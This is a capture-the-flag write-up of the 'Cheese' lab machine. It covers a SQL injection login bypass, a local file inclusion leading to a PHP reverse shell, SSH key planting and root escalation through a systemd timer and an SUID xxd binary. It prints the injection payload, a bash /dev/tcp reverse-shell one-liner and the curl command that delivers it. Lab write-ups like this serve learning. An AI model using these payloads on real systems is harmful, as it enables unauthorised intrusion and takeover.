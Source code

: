 ```yaml
---
sticker: emoji//1f9c0
---
```


# CHEESE CTF

![](gitbook/cybersecurity/images/Pasted%20image%2020240927153835.png) This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927153919.png) I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927154210.png) After looking for a while, I found that the request for messages, got me this message:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927154349.png)

Let's visit it:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927154621.png) I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt:

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

**Sending the payload**

`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![](gitbook/cybersecurity/images/Pasted%20image%2020240927160128.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020240927160136.png) We got our reverse shell, let's make it stable using the \[\[STABLE SHELL|shell tricks]]::

![](gitbook/cybersecurity/images/Pasted%20image%2020240927160349.png) Now, we have an stable shell, let's look for privesc:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927160513.png) We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927160737.png) in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927161025.png) ![](gitbook/cybersecurity/images/Pasted%20image%2020240927161221.png) I could enter ssh using my own key, let's read that `user.txt` file:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927161301.png)\\

For privilege escalation we have this sudo permissions:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927161701.png) When i read the `exploit.timer` file, I see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927161722.png) Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927161803.png) ![](gitbook/cybersecurity/images/Pasted%20image%2020240927162007.png) Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927162104.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020240927162740.png) Now, i got root authorized key access:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927162817.png) just like that, machine is done:

![](gitbook/cybersecurity/images/Pasted%20image%2020240927162856.png)

